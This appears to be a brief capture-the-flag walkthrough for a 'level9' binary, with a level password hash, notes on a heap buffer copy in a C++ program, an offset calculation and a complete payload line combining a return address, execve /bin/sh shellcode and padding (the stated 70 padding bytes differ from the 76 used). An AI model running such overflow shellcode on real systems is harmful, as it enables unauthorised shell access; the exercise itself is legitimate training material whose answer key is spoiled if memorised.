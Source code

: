level9:c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

C++ code
expects an argument

new of `0x6c` bytes

function that copy the entire first argument at `0x0804a00c`

offset 108, we have to insert an address which point a shellcode

payload => (`0x0804a00c` + 0x4) + (shellcode 34 bytes long) + padding + `0x0804a00c`
108 - (4 + 34) = 108 - 38 = 70 paddings bytes

payload = `$(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')`
`